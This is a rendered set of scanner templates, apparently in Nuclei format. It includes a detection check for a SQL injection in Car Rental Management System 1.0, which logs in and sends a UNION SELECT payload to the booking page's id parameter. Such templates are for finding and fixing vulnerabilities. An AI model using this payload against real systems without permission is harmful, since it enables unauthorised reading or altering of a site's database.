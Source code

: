 ```

```
### Matchers

**Type - word**
- part - body
- words
    1. DMS || Dashboard
    2. DMS Admin
    3. Admin Profile
- condition - and

**Type - status**
- status
    1. 200

---
# Car Rental Management System 1.0 - SQL Injection
## Description
- Car Rental Management System 1.0 contains an SQL injection vulnerability via /admin/manage_booking.php?id=. An attacker can possibly obtain sensitive information from a database, modify data, and execute unauthorized administrative operations in the context of the affected site.

- severity - high
- tags - cve,cve2022,carrental,cms,sqli,authenticated
## Requests
### Step - 1
```
POST /admin/ajax.php?action=login HTTP/1.1
Host: {{Hostname}}
Content-Type: application/x-www-form-urlencoded

username={{username}}&password={{password}}

```
### Step - 2
```
GET /admin/manage_booking.php?id=-1%20union%20select%201,2,3,4,5,6,md5({{num}}),8,9,10,11--+ HTTP/1.1
Host: {{Hostname}}

```
### Matchers

**Type - word**
- part - body
- words
    1. {{md5({{num}})}}

